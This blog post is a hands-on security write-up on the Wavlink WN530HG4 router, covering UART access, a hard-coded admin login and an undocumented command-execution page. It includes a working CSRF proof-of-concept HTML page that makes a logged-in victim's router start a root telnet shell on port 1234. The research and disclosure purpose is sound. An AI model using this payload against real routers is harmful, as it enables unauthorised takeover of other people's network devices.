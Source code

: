 +++
date = "2020-09-06"
title = "Router hacking!"
slug = "Hacking the Wavlink WN530HG4"
tags = [
]
categories = [
]
externalLink = ""
series = []
+++
*Hello.*

I like to hack SoHo (small-office home-office) routers for fun, and I’ve recently acquired the “WAVLINK AC1200 Dual Band WiFi Router,Gigabit Ethernet 1200Mbps High Speed Long Range 300 Mbps (2.4GHz)+867 Mbps (5GHz), Wireless Internet Router for Home Office”. You can take a look at the device for sale [here](https://www.amazon.com/WAVLINK-Extender-Coverage-1200Mbps-Wireless/dp/B07THZ9LBK/ref=sr_1_3?dchild=1&keywords=wavelink+router&qid=1599340954&sr=8-3).

This will be a three part blogpost. The first part  will be about publicly known vulnerabilities I found immediately. The second will be about anything I found on a deeper dive into the device’s file system. Post three will be a full audit of the device in accordance with OWASP IoT top vulnerabilities such as those listed [here](https://wiki.owasp.org/index.php/OWASP_Internet_of_Things_Project#tab=IoT_Top_10). 

To begin, a quick google search of the device brings up an interesting group of vulnerabilities:
- [/adm.cgi endpoint that processes commands without verifying their origin](https://vulmon.com/vulnerabilitydetails?qid=CVE-2020-10971&scoretype=cvssv2)
- [unauthenticated system information disclosure](https://vulmon.com/vulnerabilitydetails?qid=CVE-2020-12266&scoretype=cvssv2)
- [unauthenticated administrator password disclosure](https://vulmon.com/vulnerabilitydetails?qid=CVE-2020-10974&scoretype=cvssv2)

Unfortunately the actual exploitation of the issues is not well documented, so I decided to investigate this device to see for myself how they were exploited. First, I would need to interface with the device's on-board operating system.

To do that, we need to pop open the device and take a look at the circuit board. A lot of modern routers like to keep the top of its plastic shell in place with screws which they hide under some stickers. I found this router’s screws on the bottom of the plastic casing.

![Bottom of the router. The red light shining through is where the screw used to be!](../post2/1.jpg)

Once those are gone, we can set about looking at the router’s guts. Here’s a pic of the circuit board.

![The Wavlink router's circuit board.](../post2/2.jpg)

And look here, in the upper right corner. This is a debugging interface for the manufacturers who program this circuit board. These four ports here are a UART interface, which stands for universal asynchronous receiver-transmitter, a computer hardware device for asynchronous serial communication in which the data format and transmission speeds are configurable (more on that in transmission speed in a bit). 

![The UART interface on the circuit board.](../post2/3.jpg)

In layman’s terms, if we connect "something" that can talk to UART, and then have that same "something" also be able to talk to our computer, then we can use our computer to talk to the circuit board’s operating system. So what can we use to do that? We can use a [this](https://www.amazon.com/gp/product/B00IJXZQ7C/ref=ppx_yo_dt_b_search_asin_title?ie=UTF8&psc=1)!

![Yaaaarrrrrr, the buspirate!](../post2/4.jpg)

The HiLetgo FT232RL adapter is a hacker multi-tool that talks to electronic stuff, such as our UART port here. Connecting our adapter to the UART port requires us to solder some jumper wires from the UART interface… 

![Soldered jumper wires on the UART interface.](../post2/5.jpg)

...which will connect to the pointy end here on our adapter.

![Connecting our jumper wires from the board to the adapter.](../post2/6.jpg)

So, now that we have our adapter connected, let’s turn on the router and see what happens. We’ve set up our computer to receive the signal from our adapter, but we aren’t certain about the baud rate being used. In digital communications, symbol rate, also known as baud rate and modulation rate, is the number of symbol changes, waveform changes, or signaling events across the transmission medium per time unit using a digitally modulated signal or a line code (remember when we mentioned signal transmission speed earlier?). We don’t know how fast the signal coming from the board is to our adapter, so if we don’t tune the connection to our adapter with the proper baud rate, we will get a bunch of gobbledygook like in the following screenshot.

![Our adapter is tuned to the wrong baud rate, so it interprets the board's signal incorrectly.](../post2/7.jpg)

But, after some tedious trial and error, we have identified the baud rate as 57600. Once we modify our computer’s receive (the Linux program ‘screen’) to interpret the signal correctly, we get some nice, human-readable terminal output!

![After the baud rate is set correctly, we can see the UART output!](../post2/8.jpg)

Great! So if we wait long enough, we will eventually be asked for our Wavlink login. 

![What could the username/password be?](../post2/9.jpg)

But we don’t know the admin account name. Luckily, when we connect to the access point and configure the login password for the web app…

![Setting the router config password.](../post2/10.jpg)

We get this helpful message in the UART output.

![The UART output with a suspicious username parameter.](../post2/11.jpg)

Now, at no point during the WAP wizard was I asked for a username, but here we can see the username parameter of “admin2860” being transmitted through UART output. So, maybe we can just login with that?

![Will admin2860 work?](../post2/12.jpg)

Great! We've logged in and now have root access to the device. Let’s sniff around and see if we find anything really stupid, like those VulnMon entries we discovered earlier.

Eventually, we find the web directory, and there’s a lot in here. After some poking around, we find this (undocumented in the user manual!) webpage called “webcmd.shtml”.

![Sniffing around the router's filesystem.](../post2/13.jpg)

If we bring up “webcmd.shtml” in our browser we see...this.

![WTF???!!](../post2/14.jpg)

Wow, so we can just pass system commands to the underlying operating system! Does it work…?

![WTF???!!!?!?!?!?!?](../post2/15.jpg)

Wow, so we can read the systems password file, so everything runs as root (like the Administrator account in Windows). Nice one, Wavlink. If we inspect the web page’s HTML here, we can see that it makes a POST request to the “/cgi-bin/adm.cgi” endpoint. That endpoint is in one of the Vulnmon entries earlier in this post, so this must be vulnerable to Cross Site Request Forgery (CSRF).

![Inspecting the web page's HTML.](../post2/16.jpg)

In applications that are vulnerable to Cross Site Request Forgery (CSRF), an attacker can craft a malicious webpage that, when viewed by the victim, will force their browser to make a request to the vulnerable endpoint.

Earlier while I was digging through the filesystem, I found that the Telnet daemon, a legacy networking server, was installed on the Wavlink router. Let’s see if we can make a malicious webpage that fires off a request to “webcmd” from our victim that will force the router to open up a Telnet backdoor. 

Here’s what the malicious webpage might look like.

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.10.1/cgi-bin/adm.cgi" method="POST">
      <input type="hidden" name="page" value="sysCMD" />
      <input type="hidden" name="command" value="telnetd&#32;&#45;l&#32;&#47;bin&#47;sh&#32;&#45;p&#32;1234" />
      <input type="hidden" name="SystemCommandSubmit" value="Apply" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

And here’s the attack in action. Here, I’m simulating our victim, currently logged into the router…

![Our innocent victim, logged into their router.](../post2/17.jpg)

...but opening up our malicious webpage, which will send a request to the vulnerable endpoint in the context of the user’s session!

![Triggering the CSRF payload.](../post2/18.jpg)

![Our telnet backdoor, visible in the device's process list.](../post2/19.jpg)

And now, even though we get a 404 error from the web server, we can see (red box) that the telnet backdoor has been opened. We connect, and now we have pwned the device!

![Viewing the open port on a network scan.](../post2/20.jpg)

![Connecting to our telnet backdoor.](../post2/21.jpg)

That’s all for now! Stay tuned for part two where I review a bunch of executables and shell scripts on the Wavlink router for awful security practices!

*Goodbye.*
